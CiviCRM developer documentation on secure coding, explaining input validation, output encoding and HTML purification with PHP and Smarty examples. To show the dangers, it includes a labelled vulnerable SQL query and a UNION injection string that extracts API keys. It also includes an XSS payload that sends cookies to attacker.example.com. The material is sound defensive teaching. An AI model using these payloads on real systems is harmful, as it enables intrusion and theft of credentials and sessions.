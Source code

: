 # Secure Coding

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods {:#sanitization}

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format.

Validation works well for data *inputs* which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

Validation can also be used for *outputs*. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand the difference between inputs and outputs, as well as the different sanitization techniques, the question arises: *at what point in my code should I sanitize? Input, or output?*

### In an ideal world {:#ideal}

Ideally developers should do the following.

* For inputs:
    * **Validate data inputs** as strictly as possible.
* For outputs:
    * *Also* **validate data outputs** as strictly as possible (to provide some redundant protection).
    * **Encode data outputs** whenever possible (which is most of the time).
    * Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

!!! failure "In a misguided world"

    A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `&quot;Foo Bar&quot; &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### CiviCRM's current strategy {:#strategy}

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode the HTML output. In other places, (e.g. in SQL queries) CiviCRM encodes outputs. In 2012, developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security.

CiviCRM's strategy is as follows:

* Inputs:
    1. Validate inputs when possible
    1. For non-rich text, [partially encode inputs](/security/inputs.md#input-encoding)
    1. For rich text, [purify inputs](/security/inputs.md#input-purification)
* Outputs:
    1. HTML:
        * Do *not* perform HTML encoding for [data between tags](/security/outputs.md#between-tags)
        * *Do* perform HTML encoding for [data within attributes](/security/outputs.md#in-attributes)
    1. SQL: [validate and encode](/security/outputs.md#sql)
    1. Shell: [validate and encode](/security/outputs.md#shell)


